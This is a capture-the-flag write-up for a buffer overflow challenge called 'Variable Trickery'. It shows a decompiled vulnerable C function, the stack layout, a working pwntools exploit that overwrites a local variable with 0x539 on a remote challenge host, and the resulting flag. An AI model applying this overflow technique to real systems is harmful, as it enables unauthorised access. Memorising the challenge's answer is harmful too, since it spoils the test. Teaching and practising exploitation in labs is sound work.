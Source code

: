 # Variable Trickery – Binary Exploitation Challenge Write-up

## Challenge Overview

**Challenge Name:** Variable Trickery  
**Category:** Binary Exploitation (Buffer Overflow)  
**File:** variable_trickery  
**Host:** `nc 20.193.151.106 5003`  
**Objective:** Exploit a vulnerable binary to gain access to the flag.

---

## Vulnerability Analysis

The binary contains a vulnerable function `vuln()` that looks like this (decompiled from Ghidra):

```c
void vuln(void) {
    char name[32];
    int access;

    puts("What's your name?");
    fgets(name, 0x80, stdin);  // Vulnerability: buffer overflow
    printf("Hello %sBut you can't see the flag yet.\n", name);

    if (access == 0x539) {
        win();  // Secret function that reveals the flag
    }
}
```
---

## Key Issues:
> name is a 32-byte buffer.  
> fgets() reads up to 128 bytes, allowing us to overwrite memory beyond name.  
> The access variable is located right after the name buffer on the stack.  
> By overflowing name, we can overwrite access with the magic value 0x539 (1337) and trigger the call to win().

---
## Exploitation Strategy

Stack Layout
```pgsql
| name[32 bytes]        |
| padding (12 bytes)    |  <-- to align with access
| access (4 bytes)      |  <-- target to overwrite with 0x539
```
---
## Exploit Payload Construction
To reach and overwrite access:

```python
payload = b"A" * 44             # 32 bytes buffer + 12 bytes padding
payload += p32(0x539)           # Overwrite access with 1337
```

---

## Exploit Script (Python + pwntools)

```python
from pwn import *

# Connect to the remote challenge
conn = remote("20.193.151.106", 5003)

# Construct payload
payload = b"A" * 44
payload += p32(0x539)

# Send payload
conn.sendline(payload)

# Receive and print the output
print(conn.recvall().decode())
```

---

## Flag
Upon successful execution, we receive:

```rust
Congratulations! Here's your flag: CSAY{vars_are_meant_to_be_broken}
```

---

## Takeaway
This challenge demonstrates a classic stack-based buffer overflow caused by unsafe input handling with fgets(). Even in modern binaries, simple memory layout assumptions can be exploited if proper bounds checking is not enforced.

## Tools Used
Ghidra & Binary Ninja (for static analysis)

pwntools (for exploit scripting)

objdump, gdb, and xxd (for inspection and testing)